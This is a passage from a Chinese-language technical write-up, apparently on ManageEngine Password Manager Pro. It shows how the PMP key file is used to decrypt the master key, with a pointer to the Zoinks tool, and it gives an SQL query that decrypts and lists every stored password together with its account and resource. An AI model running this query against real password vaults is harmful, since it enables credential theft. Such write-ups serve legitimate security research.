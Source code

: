 [![Untitled 19.png](assets/1698894127-146ec4be1fe44efd0190ebf60ab9bf8d.png)](https://storage.tttang.com/media/attachment/2022/10/25/f69e7faa-0e88-4a3d-b397-4dec06d4ecbd.png)

这里通过`pmp_key.key`文件中的 PMP 密钥来解密`master key`

shielder 的代码在解的时候有些问题，这里使用[https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks)项目来进行解密

[![Untitled 20.png](assets/1698894127-a6362a2083770ae742d7f148678d766d.png)](https://storage.tttang.com/media/attachment/2022/10/25/6895f17f-ebfd-4dee-a90b-b13e6882378c.png)

得到`master key`

- - -

## [解密数据库中的密码](#toc__5)

首先先查询数据库中的存储的密码

```plain
select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'***master_key***') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID
```
